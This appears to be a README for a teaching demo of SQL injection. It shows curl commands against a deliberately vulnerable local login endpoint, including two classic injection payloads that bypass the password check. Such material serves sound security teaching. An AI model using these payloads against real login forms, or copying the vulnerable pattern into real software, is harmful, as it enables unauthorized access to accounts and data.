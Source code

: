 SQL Injection Demo
==========

Execute Server
----------
```
python main.py
```

Test Server
----------
Tests are executed on Windows
```
curl -d "username=felix&password=pwfelix" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}

curl -d "username=felix&password=wrongPW" -X POST http://localhost:5000/login_form_vulnerable
{"status":"fail"}
```

Injection attack
```
curl -d "username=felix&password=' OR 1 = 1;--" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}

curl -d "username=felix&password=' OR '1' = '1" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}
```
